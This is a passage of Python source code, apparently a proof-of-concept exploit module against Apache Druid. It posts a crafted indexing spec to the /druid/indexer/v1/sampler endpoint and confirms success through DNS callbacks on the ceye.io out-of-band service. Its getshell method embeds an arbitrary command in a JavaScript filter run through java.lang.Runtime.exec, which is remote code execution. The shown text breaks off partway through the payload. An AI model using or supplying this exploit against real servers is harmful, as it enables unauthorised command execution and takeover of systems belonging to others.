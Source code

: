```py
            rep1 = requests.post(url=self.url.rstrip("/")+"/druid/indexer/v1/sampler?for=filter",headers=headers,data=json.dumps(data))
            if rep1.status_code == 200:
                url = 'http://api.ceye.io/v1/records'
                params = {
                    "token": "xxxx",
                    "type": "dns",
                    "filter": "xxx.ceye.io"
                }
                rep2 = requests.get(url=url, params=params,timeout=2)
                if "xxxx.ceye.io" in rep2.text:
                    result['VerfiryInfo'] = {}
                    result['VerfiryInfo']['URL'] = self.url
        except Exception as e:
            print(e)
        return self.parse_output(result)
    def getshell(self,cmd):
        result = {}
        vul = self.url.rstrip("/")+"/druid/indexer/v1/sampler?for=filter"
        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
            "Accept": "application/json, text/plain, */*",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Content-Type": "application/json",
        }
        data = {
        "type": "index",
        "spec": {
            "type": "index",
            "ioConfig": {
                "type": "index",
                "firehose": {
                    "type": "local",
                    "baseDir": "/opt/",
                    "filter": ""
                }
            },
            "dataSchema": {
                "dataSource": "sample",
                "parser": {
                    "type": "string",
                    "parseSpec": {
                        "format": "json",
                        "timestampSpec": {
                            "column": "time",
                            "format": "iso"
                        },
                        "dimensionsSpec": {}
                    }
                },
                "transformSpec": {
                    "transforms": [],
                    "filter": {
                        "type": "javascript",
                        "function": "function(value){return java.lang.Runtime.getRuntime().exec('"+cmd+"')}",
                        "dimension": "added",
                        "": {
                            "enabled": "true"
                        }
                    }
                }
```